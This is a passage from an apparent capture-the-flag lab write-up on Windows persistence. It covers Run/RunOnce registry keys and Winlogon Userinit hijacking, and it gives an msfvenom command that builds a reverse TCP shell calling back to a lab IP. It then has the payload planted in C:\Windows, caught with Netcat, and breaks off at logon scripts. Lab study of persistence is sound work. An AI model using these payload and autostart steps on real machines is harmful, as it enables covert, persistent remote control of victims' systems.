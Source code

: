 ```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

```powershell
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

```powershell
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

The registry entries under `HKCU` apply only to the current user, while those under `HKLM` apply to everyone. Programs specified under the `Run` keys will execute each time the user logs in. Conversely, programs specified under the `RunOnce` keys will be executed only once.

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o revshell.exe
```

Upload the file as usual and then move it to `C:\Windows`. After that, we need to create a `REG_EXPAND_SZ` registry entry under:

```powershell
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397327010/5869b6ed-e7ee-4620-9ae2-e7ed84d7c717.png align="center")

Log in, and capture the shell using `Netcat`, and grab `flag11.exe`.

### Winlogon

Another way to automatically start a program upon login is by using the `Winlogon` component. This essentially loads Windows profiles once the credentials have been authenticated.

`Winlogon` utilizes registry keys located at:

```powershell
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

* `Userinit` points to `userinit.exe`, which is responsible for restoring user profile preferences upon login.
    
* `shell` points to the operating system's shell, which is commonly `explorer.exe`.
    

Create a shell, upload it, and then transfer it to `C:\Windows`. After that, modify the Userinit registry value to incorporate `C:\Windows\revshell.exe`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397460030/ddc83e5e-213c-49e2-832c-ecea36b9cfab.png align="center")

Sign out and then sign back in, and capture the shell using `Netcat`. Grab `flag12.exe` from here.

### Logon Scripts

Just like before, generate a payload and transfer it using `Evil-WinRM`. From there, create an environment variable for a user.
